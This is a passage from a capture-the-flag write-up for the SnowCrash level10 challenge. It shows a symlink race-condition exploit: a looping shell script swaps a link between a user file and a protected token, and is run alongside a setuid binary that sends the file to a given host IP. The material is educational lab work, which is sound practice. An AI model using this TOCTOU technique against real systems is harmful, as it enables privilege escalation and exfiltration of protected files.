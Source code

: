 In order to have a link point to it, and once the access has been checked, point to the token in the home directory, we need to write a script.
Since it has no way of knowing when to time the link change, we will have it alternate indefinitely between the two states:

```
[snowcrash@docker] ~/level10/Ressources # cat create_link.sh
#!/bin/sh

while true
    do
        echo "MY LINK"
        ln -sf /tmp/myfile /tmp/token
        echo "TOKEN LINK"
        ln -sf /home/user/level10/token /tmp/token
    done
```

So we can upload it to /tmp and give execution rights:

```
[snowcrash@docker] ~/level10/Ressources # scp -P 4242 ./create_link.sh scp://level10@192.168.0.169/../../../tmp/create_link.sh
create_link.sh 100% 177 14.9KB/s 00:00
level10@SnowCrash:~$ cd /tmp && chmod +x create_link.sh
level10@SnowCrash:/tmp$ ls -l create_link.sh
-r-xrwxr-x 1 level10 level10 177 Oct 23 22:34 create_link.sh
```

Which means you can run the script in one session, and the executable in another:

```
level10@SnowCrash:/tmp\$ ./create_link.sh
MY LINK
TOKEN LINK
MY LINK
TOKEN LINK
MY LINK
TOKEN LINK
MY LINK
TOKEN LINK
MY LINK
TOKEN LINK
MY LINK
TOKEN LINK
MY LINK
TOKEN LINK
MY LINK
...
```

```
level10@SnowCrash:~\$ ./level10 /tmp/token 192.168.0.115
./level10 file host
sends file to host if you have access to it
```
